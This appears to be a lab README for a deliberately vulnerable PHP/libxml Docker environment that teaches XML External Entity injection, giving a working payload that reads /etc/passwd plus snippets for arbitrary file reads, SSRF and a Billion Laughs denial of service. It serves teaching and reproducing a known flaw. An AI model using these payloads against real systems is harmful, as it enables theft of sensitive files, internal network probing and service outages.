

PHP XML External Entity Injection (XXE)¶
XML External Entity (XXE) Injection is a vulnerability that occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. This vulnerability can lead to various attacks including disclosure of confidential data, denial of service, server side request forgery, port scanning, and other system impacts.
After libxml 2.9.0, external entity parsing is disabled by default, which largely mitigated XXE vulnerabilities. This environment uses libxml 2.8.0 compiled into PHP to demonstrate XXE vulnerabilities in PHP applications.
References:
- OWASP XXE Prevention Cheat Sheet
- PHP Documentation: libxml
- CWE-611: Improper Restriction of XML External Entity Reference
Environment Setup¶
This environment is based on the PHP 7.0.30 with libxml 2.8.0, execute the following command to start the environment:
docker compose up -d
After the server starts, visit http://your-ip:8080/index.php to see the phpinfo page. You can verify the libxml version (2.8.0) by searching for "libxml" on that page.
The web root directory ./www contains three vulnerable PHP files demonstrating different XML parsing methods:
$ tree .
.
├── dom.php # Example: XML parsing using DOMDocument
├── index.php
├── SimpleXMLElement.php # Example: XML parsing using SimpleXMLElement class
└── simplexml_load_string.php # Example: XML parsing using simplexml_load_string function
All three files (dom.php, SimpleXMLElement.php, and simplexml_load_string.php) are vulnerable to XXE attacks.
Vulnerability Reproduction¶
Send the following XML payload to any of the vulnerable files to read the contents of /etc/passwd:
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
The successful exploitation will display the contents of the file:

Advanced Exploitation Techniques¶
Reading Arbitrary Files:
<!ENTITY xxe SYSTEM "file:///path/to/sensitive/file" >
SSRF (Server-Side Request Forgery):
<!ENTITY xxe SYSTEM "http://internal.service.local" >
Denial of Service (Billion Laughs Attack):
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;">